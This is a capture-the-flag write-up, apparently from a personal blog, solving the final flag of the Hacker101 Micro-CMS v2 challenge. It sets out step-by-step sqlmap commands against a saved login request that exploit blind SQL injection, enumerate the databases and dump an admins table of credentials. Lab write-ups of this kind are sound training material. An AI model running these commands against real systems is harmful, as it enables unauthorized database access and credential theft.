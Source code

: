 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 3
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1) and [flag2](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-2) this is a writeup of the final flag in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding a the final vulnerability

At this point I've had a lot of time to dig around in the front end and can't think of anything else to try there, so let's have a dig in the database.

# sqlmap

If you've not come across it before, [sqlmap](https://sqlmap.org/) is a tool that automates finding and exploiting sql injection vulns.  Given we are exploiting a non-reflected (AKA blind) injection vuln (i.e. the results of the injection are not shown in the UI) then we either need to script something ourselves or use a tool. In this case sqlmap is very powerful but the docs aren't the best.  Let's have a play:

# Getting a request payload

The first thing we'll need is a request payload in a format that sqlmap understands.  In chrome, make sure you've got dev tools open on the login page, then enter any old junk in the username and password fields and click "Log In".

Now in the network tab we can right-click and select `Copy request headers` and paste the contents into a new file (I called mine "request.txt").  Then go back to the network tab and down in the Form Data area select `view source` and copy the payload.

![login error]({{ site.url }}/assets/post-images/h101-cms-v2/LoginCopy.png)

So the contents of the file looks something like this (with a different URL on the first line...):

```
POST /83aa39a35a/login HTTP/1.1
Host: 35.190.155.168
Connection: keep-alive
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://35.190.155.168
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: http://35.190.155.168/83aa39a35a/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: l2session=eyJhZG1pbiI6dHJ1ZX0.YJlkcg.ZOb4OMIethVS0zf62YyVTrw6Ong

username=user&password=pass
```

# Testing the username field

Now we're ready to run some tests.  In this first one we're going to get sqlmap to test the username parameter of the request we saved in request.txt.  The `-r` flag is the path to the request file we created, and the `-p` flag is the parameter to test:

`sqlmap -r ./request.txt -p username`

After running this we can see that the username field is vulnerable and that that we're working with MySQL >= 5.0 (MariaDB fork) and some details about the back end OS.  A little scary how much can be picked up here.

# Enumerating the databases

Next up we can use the `--dbs` command to get back a list of all the tables in the DB:

`sqlmap -r ./request.txt -p username --dbs`

This gives us 4 databases on the server that we can access:
- information_schema
- level2
- mysql
- performance_schema

# Enumerating the tables

That level2 database looks interesting.  We can use the `-D` flag to select that database, then use the `--tables` flag to list out the tables in that DB:

`sqlmap -r ./request.txt -p username -D level2 --tables`

Running this gives us 2 tables:

```bash
Database: level2
[2 tables]
+--------+
| admins |
| pages  |
+--------+
```

# Dumping the table contents

OK, that admin table looks like a good candidate.  We can use the `-T` flag to select that table and the `--dump` flag to dump the contents to the console.

`sqlmap -r ./request.txt -p username -D level2 -T admins --dump`

I won't post the output here but that's given me a table with a username and a plaintext password.  Logging in to the site with those credentials gives me the final flag.

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
